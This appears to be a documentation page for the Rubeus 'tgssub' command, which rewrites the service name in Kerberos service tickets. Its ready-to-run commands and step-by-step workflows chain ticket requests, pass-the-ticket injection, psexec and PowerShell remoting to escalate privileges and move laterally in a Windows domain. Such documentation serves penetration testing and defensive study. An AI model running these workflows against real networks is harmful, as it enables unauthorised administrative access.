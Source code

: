 ```yaml
---
title: 'tgssub'
description: 'Substitute service names in TGS tickets for alternative service access'
icon: 'repeat'
sidebarTitle: 'tgssub'
---
```


## Overview

Substitute the service name in a TGS ticket to access alternative services on the same host. This technique leverages the fact that service tickets are often valid for multiple services running under the same account context.

## Syntax

```bash
Rubeus.exe tgssub /ticket:TICKET /service:NEW_SERVICE [options]
```

## Required Parameters

<ParamField path="ticket" type="string" required>
  Base64-encoded ticket data or path to .kirbi file
</ParamField>

<ParamField path="service" type="string" required>
  New service name to substitute
</ParamField>

## Optional Parameters

<ParamField path="outfile" type="string">
  Save modified ticket to file
</ParamField>

<ParamField path="ptt" type="boolean">
  Pass-the-ticket (inject modified ticket)
</ParamField>

## Examples

<CodeGroup>
```bash Service Substitution
# Change CIFS ticket to HOST for admin access
Rubeus.exe tgssub /ticket:cifs_ticket.kirbi /service:host/server.corp.local /ptt

# Change HTTP ticket to LDAP
Rubeus.exe tgssub /ticket:http_ticket.kirbi /service:ldap/dc.corp.local

# Save modified ticket to file
Rubeus.exe tgssub /ticket:original.kirbi /service:mssql/db.corp.local /outfile:modified.kirbi
```
</CodeGroup>

## Service Substitution Concepts

<Accordion title="Same Account Services">
  **Service Context:**
  - Services running under same account can often be substituted
  - Machine account services (HOST, CIFS, HTTP, etc.)
  - Service account with multiple SPNs
  - Shared service account contexts

  **Common Substitutions:**
  - CIFS → HOST (file access to admin access)
  - HTTP → LDAP (web access to directory access)
  - HOST → CIFS (admin access to file access)
  - Any service → WSMAN (PowerShell remoting)
</Accordion>

## Use Cases

<Accordion title="Privilege Escalation">
  **Access Expansion:**
  - Convert file access to administrative access
  - Escalate web service access to directory access
  - Enable remote administration from basic services
  - Access database services from web services

  **Lateral Movement:**
  - Use existing service tickets for different access methods
  - Expand attack surface with minimal additional authentication
  - Leverage service account relationships
  - Access services not directly targeted
</Accordion>

## Common Service Mappings

<Accordion title="Machine Account Services">
  **Windows Machine Services:**
  ```bash
  # CIFS to HOST (file access to admin)
  Rubeus.exe tgssub /ticket:cifs.kirbi /service:host/target.corp.local

  # HTTP to WSMAN (web to PowerShell remoting)
  Rubeus.exe tgssub /ticket:http.kirbi /service:wsman/target.corp.local

  # HOST to LDAP (admin to directory)
  Rubeus.exe tgssub /ticket:host.kirbi /service:ldap/target.corp.local
  ```

  **Service Relationships:**
  - Most machine services run under SYSTEM/machine account
  - Tickets are often interchangeable
  - Different services provide different access methods
  - Substitution leverages shared service context
</Accordion>

## Integration Workflows

<Accordion title="Access Expansion">
  **Complete Workflow:**
  ```bash
  # 1. Obtain service ticket (any method)
  Rubeus.exe asktgs /service:cifs/fileserver.corp.local /ptt

  # 2. Substitute for administrative access
  Rubeus.exe tgssub /ticket:cifs_ticket.kirbi /service:host/fileserver.corp.local /ptt

  # 3. Use administrative access
  psexec \\fileserver.corp.local cmd
  ```
</Accordion>

<Accordion title="Service Chaining">
  **Multi-Service Access:**
  ```bash
  # 1. Start with basic web service access
  Rubeus.exe tgssub /ticket:http.kirbi /service:cifs/target.corp.local /ptt

  # 2. Access file system
  dir \\target.corp.local\c$

  # 3. Substitute for WSMAN access
  Rubeus.exe tgssub /ticket:http.kirbi /service:wsman/target.corp.local /ptt

  # 4. Use PowerShell remoting
  Enter-PSSession -ComputerName target.corp.local
  ```
</Accordion>

## Technical Considerations

<Accordion title="Substitution Requirements">
  **Valid Substitutions:**
  - Services must run under same account context
  - Target host must support the substituted service
  - Service must be registered and available
  - Account must have appropriate permissions

  **Limitations:**
  - Cannot substitute across different service accounts
  - Host must actually run the target service
  - Service-specific permissions still apply
  - Some services may have additional validation
</Accordion>

## Service Discovery

<Accordion title="Target Service Identification">
  **Service Enumeration:**
  - LDAP queries for registered SPNs
  - Network service discovery
  - Port scanning for active services
  - Service account analysis

  **Strategic Targeting:**
  - Identify high-value services on target hosts
  - Map service account relationships
  - Find services with elevated privileges
  - Discover administrative service access
</Accordion>

## Related Commands

- [`asktgs`](/commands/ticket-requests/asktgs) - Obtain service tickets for substitution
- [`ptt`](/commands/management/ptt) - Inject substituted tickets
- [`describe`](/commands/management/describe) - Analyze original and modified tickets
- [`s4u`](/commands/delegation/s4u) - Alternative service access method